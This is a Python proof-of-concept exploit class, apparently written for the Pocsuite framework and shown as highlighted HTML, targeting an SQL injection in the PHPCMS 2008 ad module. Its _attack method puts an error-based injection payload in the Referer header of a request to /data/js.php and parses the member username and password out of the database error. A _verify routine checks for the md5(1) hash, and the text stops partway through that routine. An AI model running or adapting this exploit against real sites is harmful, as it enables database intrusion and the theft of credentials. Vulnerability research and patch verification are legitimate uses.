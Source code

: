 
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">TestPOC</span><span class="hljs-params">(POCBase)</span>:</span>
    vulID = <span class="hljs-string">'62274'</span>  <span class="hljs-comment"># ssvid</span>
    version = <span class="hljs-string">'1'</span>
    author = [<span class="hljs-string">'Medici.Yan'</span>]
    vulDate = <span class="hljs-string">'2011-11-21'</span>
    createDate = <span class="hljs-string">'2015-09-23'</span>
    updateDate = <span class="hljs-string">'2015-09-23'</span>
    references = [<span class="hljs-string">'http://www.seebug.org/vuldb/ssvid-62274'</span>]
    name = <span class="hljs-string">'_62274_phpcms_2008_place_sql_inj_PoC'</span>
    appPowerLink = <span class="hljs-string">'http://www.phpcms.cn'</span>
    appName = <span class="hljs-string">'PHPCMS'</span>
    appVersion = <span class="hljs-string">'2008'</span>
    vulType = <span class="hljs-string">'SQL Injection'</span>
    desc = <span class="hljs-string">'''
        phpcms 2008 中广告模块，存在参数过滤不严，
        导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，
        如果关闭了错误显示，可以采用基于时间和错误的盲注
    '''</span>
    samples = [<span class="hljs-string">'http://10.1.200.28/'</span>]

    <span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">_attack</span><span class="hljs-params">(self)</span>:</span>
        result = {}
        vulurl = urlparse.urljoin(self.url, <span class="hljs-string">'/data/js.php?id=1'</span>)
        payload = <span class="hljs-string">"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(SELECT concat(char(45,45),username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"</span>
        head = {
            <span class="hljs-string">'Referer'</span>: payload
        }
        resp = req.get(vulurl, headers=head)
        <span class="hljs-keyword">if</span> resp.status_code == <span class="hljs-number">200</span>:
            match_result = re.search(<span class="hljs-string">r'Duplicate entry \'1--(.+)---(.+)--\' for key'</span>, resp.content, re.I | re.M)
            <span class="hljs-keyword">if</span> match_result:
                result[<span class="hljs-string">'AdminInfo'</span>] = {}
                result[<span class="hljs-string">'AdminInfo'</span>][<span class="hljs-string">'Username'</span>] = match_result.group(<span class="hljs-number">1</span>)
                result[<span class="hljs-string">'AdminInfo'</span>][<span class="hljs-string">'Password'</span>] = match_result.group(<span class="hljs-number">2</span>)
        <span class="hljs-keyword">return</span> self.parse_attack(result)

    <span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">_verify</span><span class="hljs-params">(self)</span>:</span>
        result = {}
        vulurl = urlparse.urljoin(self.url, <span class="hljs-string">'/data/js.php?id=1'</span>)
        payload = <span class="hljs-string">"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2), md5(1))a from information_schema.tables group by a)b), '0')#"</span>
        head = {
            <span class="hljs-string">'Referer'</span>: payload
        }
        resp = req.get(vulurl, headers=head)
        <span class="hljs-keyword">if</span> resp.status_code == <span class="hljs-number">200</span> <span class="hljs-keyword">and</span> <span class="hljs-string">'c4ca4238a0b923820dcc509a6f75849b'</span> <span class="hljs-keyword">in</span> resp.content:
            result[<span class="hljs-string">'VerifyInfo'</span>] = {}
            result[<span class="hljs-string">'VerifyInfo'</span>][<span class="hljs-string">'URL'</span>] = vulurl
            result[<span class="hljs-string">'VerifyInfo'</span>][<span class="hljs-string">'Payload'</span>] = payload
